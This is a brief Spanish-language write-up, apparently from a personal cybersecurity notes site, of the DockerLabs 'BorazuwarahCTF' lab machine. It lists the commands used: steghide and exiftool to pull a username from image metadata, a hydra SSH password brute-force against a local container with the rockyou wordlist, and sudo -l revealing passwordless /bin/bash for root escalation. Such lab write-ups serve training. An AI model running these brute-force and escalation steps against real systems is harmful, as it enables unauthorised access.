

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/borazuwarahctf/index.html · generator: mkdocs

# BorazuwarahCTF

Una vez descargada la imagen, intentamos ver si hay algún archivo oculto dentro de esta imagen usando el comando
`steghide extract -sf imagen.jpeg

Como no se obtiene info se usa otra herramienta EXIFTOOL para metadatos
`exiftool imagen.jpeg`
Se obtiene usuario en metadatos -> *borazuwarah*

Contraseña con *hydra*
`hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

## Escalada

`sudo -l`
*(ALL : ALL) ALL*
*(ALL) NOPASSWD: /bin/bash*
Se puede ejecutar /bin/bash sin contraseña porque está en NOPASSWD
